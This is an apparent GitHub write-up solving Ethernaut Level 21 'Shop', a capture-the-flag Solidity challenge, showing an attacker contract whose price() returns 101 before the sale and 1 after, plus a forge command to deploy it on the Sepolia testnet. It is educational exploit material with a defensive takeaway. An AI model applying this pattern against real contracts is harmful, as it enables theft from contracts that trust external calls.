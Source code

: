 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/21-shop.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 21 - Shop</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 21 - Shop](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-21-shop)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/21-shop-requirements.webp" width="800px"/>

## The hack

The goal of the Shop challenge is to buy an item from the contract at a discount. How to do that? Let's check the `buy()` function:

```javascript
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

It seems that only a price equal to or greater than the current price will be accepted. However, the `price()` function is not a simple getter, but rather an interface without any logic. So what if we could set our own logic?

This is quite similar to the level [11 - Elevator](../solutions/11_Elevator.md). We can create a new contract that implements the `Buyer` interface and sets our custom logic for the `price()` function.

Now, we simply have to mess with this part:

```javascript
if (_buyer.price() >= price && !isSold) {
  isSold = true;
  price = _buyer.price();
}
```

Notice how the `price()` is called twice. Once to check that the price paid is enough, then again to set the price to its new value.
So we want `!sold` to be false and `price` to be more than 100 the first time to pass the condition, and then `!sold` to be true and `price` to be as little as possible the second time. And there will be our discount.

## Solution

Let's implement the code accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IShop {
    function isSold() external view returns (bool);

    function buy() external;
}

contract Discount {
    IShop shop;

    constructor(address _shop) {
        shop = IShop(_shop);
    }

    function price() public view returns (uint256) {
        return shop.isSold() ? 1 : 101;
    }

    function attack() public {
        shop.buy();
    }
}
```

Then run the script with the following command:

```bash
forge script script/21_Shop.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Don't change the state based on external and untrusted contracts logic.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
